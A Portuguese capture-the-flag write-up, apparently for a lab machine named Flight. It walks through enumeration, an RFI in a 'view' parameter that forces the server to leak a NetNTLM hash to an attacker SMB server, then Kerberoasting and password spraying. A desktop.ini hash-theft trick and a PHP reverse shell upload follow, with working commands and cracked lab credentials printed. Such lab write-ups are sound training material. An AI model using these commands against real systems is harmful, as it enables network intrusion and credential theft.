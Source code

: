# Flight

## Enumeration

Nmap script

![qownnotes-media-VMuwah](../../media/qownnotes-media-VMuwah.png)

UDP scan

![qownnotes-media-VMgxgZ](../../media/qownnotes-media-VMgxgZ.png)

Full TCP scan

![image](../../.gitbook/assets/image%20(1).png)

Então temos:

DNS HTTP Kerberos RPC SMB LDAP

### HTTP

![qownnotes-media-zNgBXB](../../media/qownnotes-media-zNgBXB.png)

![qownnotes-media-TwGaZc](../../media/qownnotes-media-TwGaZc.png)

![qownnotes-media-VveKHl](../../media/qownnotes-media-VveKHl.png)

![qownnotes-media-qQXkSz](../../media/qownnotes-media-qQXkSz.png) =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

```
school.flight.htb
```

### SMB

![qownnotes-media-bkzCgk](../../media/qownnotes-media-bkzCgk.png)

```
g0.flight.htb
```

![qownnotes-media-DQoVIc](../../media/qownnotes-media-DQoVIc.png)

### RPC

![qownnotes-media-kBtyxd](../../media/qownnotes-media-kBtyxd.png)

### LDAP

![qownnotes-media-LnGbjN](../../media/qownnotes-media-LnGbjN.png)

### Kerberos

```
kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187
```

![qownnotes-media-RAnyke](../../media/qownnotes-media-RAnyke.png)

### DNS

![qownnotes-media-OxlPjV](../../media/qownnotes-media-OxlPjV.png)

![qownnotes-media-nyDtLD](../../media/qownnotes-media-nyDtLD.png)

![qownnotes-media-OyCEfo](../../media/qownnotes-media-OyCEfo.png)

### HTTP continue

```
school.flight.htb
```

![qownnotes-media-iUmICa](../../media/qownnotes-media-iUmICa.png)

![qownnotes-media-kMffXk](../../media/qownnotes-media-kMffXk.png)

Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

```
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102
```

![qownnotes-media-XXURur](../../media/qownnotes-media-XXURur.png)

![qownnotes-media-puTALa](../../media/qownnotes-media-puTALa.png)

As que vieram diferentes foram:

![qownnotes-media-KrRjij](../../media/qownnotes-media-KrRjij.png)

```
g0.flight.htb
```

![qownnotes-media-CDlMtu](../../media/qownnotes-media-CDlMtu.png)

Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

```
ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102
```

![qownnotes-media-NHAXrq](../../media/qownnotes-media-NHAXrq.png)

![qownnotes-media-RlSMVb](../../media/qownnotes-media-RlSMVb.png)

![qownnotes-media-SdlWrO](../../media/qownnotes-media-SdlWrO.png)

![qownnotes-media-HtZCrq](../../media/qownnotes-media-HtZCrq.png)

#### LFI

PWNED!

![qownnotes-media-GeVlbb](../../media/qownnotes-media-GeVlbb.png)

## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

```
impacket-smbserver -smb2support smb .

http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
```

Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:

![qownnotes-media-hMblhO](../../media/qownnotes-media-hMblhO.png)

![qownnotes-media-JCOaeL](../../media/qownnotes-media-JCOaeL.png)

Tentativa com Kerberoasting

```
impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request
```

As Rep Roasting:

```
impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes

enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
 
```

Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml Enumerei pelo bloodhound:

```
 bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
 
```

Sem sucesso. Password Spray:

```
crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
```

![qownnotes-media-ZJWfVt](../../media/qownnotes-media-ZJWfVt.png)

Continuando a enumeração:

```
crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares
```

![qownnotes-media-Swipnb](../../media/qownnotes-media-Swipnb.png)

Nesse momento, é interessante considerar a possibilidade de explorar o serviço via SMB, dado que temos autorização de escrita em um dos compartilhamentos listados. Temos alguns vetores para este caso,sendo eles documentados [aqui](../../3\_Exploitation/SMB.md)

Utilizando um desktop.ini com o exemplo obtido na referência acima, conseguimos a credencial do c.bum

c.bum:Tikkycoll\_431012284

Que tem acesso de escrita em uma pasta compartilhada também chamada Web:

```
crackmapexec smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares
```

Depois disso, basta subir uma shell reversa em PHP para conseguir execução de comandos na máquina:

```
smbclient -U flight.htb/c.bum //10.10.11.187/Web -c "put revshell.php"
```

